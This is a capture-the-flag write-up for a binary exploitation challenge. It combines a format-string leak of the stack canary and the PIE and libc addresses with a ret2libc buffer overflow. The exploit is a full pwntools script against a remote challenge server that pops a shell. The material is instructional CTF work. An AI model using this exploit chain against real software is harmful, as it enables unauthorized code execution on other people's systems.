



# What does the f say
`Buffer Overflow` `64-Bits Binary` `Ret2Libc` `Canary` `Format String`
<br>
<br>

This challenge for me personally is very challenging since it combine a format string vulnerability with a ret2libc.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Above I've done the checksec for the binary, and everything is on, from `Full RELRO` meaning we can't hijack any function there, the binary also has a Canary, and `PIE enabled` which mean all the address is randomized each time we run the binary.

First I try to decompile the binary and found out that the binary has 2 option, either we get the `drink` or `food`, and in the `drink` section if we choose `Kryptonite` we're given 2 options, either the red or green, **BUT** I tried to put some format string payload there which is `%p` and it prints out an address.

<p align=center>
    
    <br>
    <h5 align=center> format string vulnerability @drink_menu</h5> 
</p>

Simply I do some bruteforcing to find useful address for the exploitation, and since the PIE is on, we're also looking for leaked function address. After a while I found some useful addresses such as `libc_read`, `canary`, `fox_bar`, `libc_start_main` - So first I write my python code to get 'em. (note I didn't use the read at last since I can use the start main address)

```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)

p = process(binary)

p.recv()
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) 
lism = int(leak[2],16) 
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')
```

Notice that the libc and base address is not the one we wanted, what we got:
```
gef➤  x/s 0x7ffff7de8083
0x7ffff7de8083 <__libc_start_main+243>:	"\211\307\350\266)\002"
gef➤  x/s 0x55555555574a
0x55555555574a <fox_bar+106>:	"\353\030\350-\373\377\377\353\021H\215=\214\t"  
```
What we want to get when we use `x/s` is something like `/177ELF` or what I use to say, the `base` address, both `libc base` and `binary base`. So how do we get them? It's quite simple! after you use `gdb <binary>` just run it and stop it, then type `vmmap` and you will see something like this.

```
Start              End                Offset             Perm Path
0x00555555554000 0x00555555555000 0x00000000000000 r-- /home/kiinzu/Downloads/wdf
0x00555555555000 0x00555555556000 0x00000000001000 r-x /home/kiinzu/Downloads/wdf
0x00555555556000 0x00555555557000 0x00000000002000 r-- /home/kiinzu/Downloads/wdf
0x00555555557000 0x00555555558000 0x00000000002000 r-- /home/kiinzu/Downloads/wdf
0x00555555558000 0x00555555559000 0x00000000003000 rw- /home/kiinzu/Downloads/wdf
0x007ffff7dc4000 0x007ffff7de6000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7de6000 0x007ffff7f5e000 0x00000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f5e000 0x007ffff7fac000 0x0000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fac000 0x007ffff7fb0000 0x000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fb0000 0x007ffff7fb2000 0x000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fb2000 0x007ffff7fb8000 0x00000000000000 rw- 
0x007ffff7fc9000 0x007ffff7fcd000 0x00000000000000 r-- [vvar]
0x007ffff7fcd000 0x007ffff7fcf000 0x00000000000000 r-x [vdso]
0x007ffff7fcf000 0x007ffff7fd0000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7fd0000 0x007ffff7ff3000 0x00000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ff3000 0x007ffff7ffb000 0x00000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffc000 0x007ffff7ffd000 0x0000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffd000 0x007ffff7ffe000 0x0000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffe000 0x007ffff7fff000 0x00000000000000 rw- 
0x007ffffffde000 0x007ffffffff000 0x00000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```

So how do you get the offset? we leaked 2 address, the `fox_bar(0x55555555574a)` and `__libc_start_main(0x7ffff7de8083)` Now after you vmmap, there are 2 address that I want you to look carefully, find the first start from your binary address, in my case is the start of `/home/kiinzu/download/wdf`, so the address is `0x00555555554000`, now use python3 we can just calculate the offset by using `hex(0x55555555574a - 0x00555555554000)` and we got the offset of `0x174a`, this is the binary base, binary base is **THE SAME** for both local and remote. Now for the `libc base`we do the same, but we search for the libc, so we look at the first start of `/usr/lib/x86_64-linux-gnu/libc-2.31.so` which is `0x007ffff7dc4000`, calculate the address again by `hex(0x007ffff7dc4000-0x7ffff7de8083)`, and so we find the offset of `0x24083`. Note that Libc Base is not the same for both local and remote, this one will only work for local, not remote.

At this point we already know that the vulnerability is Ret2libc, cuz why would they give us a bunch of libc, right? Now we just aim it to the server and see what's the `__libc_start_main` and get this address `0x7f44eba00b97`, searching on libc.rip and libc.blukat.me both don't give me a single answer, based on my previous CTF experience, we can try using `__libc_start_main_ret` instead of the normal `__libc_start_main` and yep, we got the libc. You can download it here https://libc.blukat.me/?q=__libc_start_main_ret%3A0x7f44eba00b97&l=libc6_2.27-3ubuntu1.2_amd64 or just use the table provided.

```
Symbol	                  Offset	Difference
__libc_start_main_ret	 0x021b97	0x0
system	                 0x04f4e0	0x2d949
open	                 0x10fd50	0xee1b9
read	                 0x110180	0xee5e9
write	                 0x110250	0xee6b9
str_bin_sh	         0x1b40fa	0x192563
```
So now where can we use put our payload? After analyzing the binary in IDA, I see that it gives us warning if we want to purchase something when our balance is under 20.00, just then we can input a string a length of 24 bytes, just before the canary. (I manually try to add n x 8 bytes everytime until 32 and it said `***stack smashing detected***`), so I use `24` as the offset. 

<p align=center>
    
    <h5 align=center>Buffer Overflow Vulnerability</h5>
</p>

So Ret2libc payload need to be like this
```
padding + canary + junk of 8 + pop rdi + binsh + system
```
Hohoho, but we can't just use:
```
ROPgadget --binary wdf | grep "pop rdi"
```
why? because the PIE is enabled :upside_down_face:, this is how you use `pop rdi` if the PIE enabled. Let's check first, we got our `binary base`, correct? now we use the `ROPgadget --binary wdf | grep "pop rdi"`, and find the offset of `0x18bb`, the pop rdi actual address is `binary base + 0x18bb`. Just to be safe, we want to add a stack alignment with ret, how do we get the ret offset? The same way we get our pop rdi offset :smile:.

Now let's create the python and get our flag!

```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)
libc = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

#p = process(binary)

p = remote('161.35.36.167',32701)

def order(times):
	for i in range(times):
		p.sendline(b'2')
		p.recv()
		p.sendline(b'3')
		p.recv()

#Leak Address
p.recv()
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) - 0x174a
lism = int(leak[2],16) - 0x021b97 #Server Offset
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')

#Drain Money <20.00
order(6)

#Call the BOF function
p.sendline(b'1')
p.recv()
p.sendline(b'2')
p.recv()
p.sendline(b'Red')
p.recv()

#PAYLOAD
rdi = base + 0x18bb
ret = base + 0x1016

payload = b'a'*24
payload+= p64(canary)
payload+= b'a'*8
payload+= p64(rdi)
payload+= p64(lism + 0x1b40fa)
payload+= p64(ret)
payload+= p64(lism + 0x04f4e0)

p.sendline(payload) 

p.interactive()
```

Just Like that, we got the flag :relaxed:.

<p align=center>
    
</p>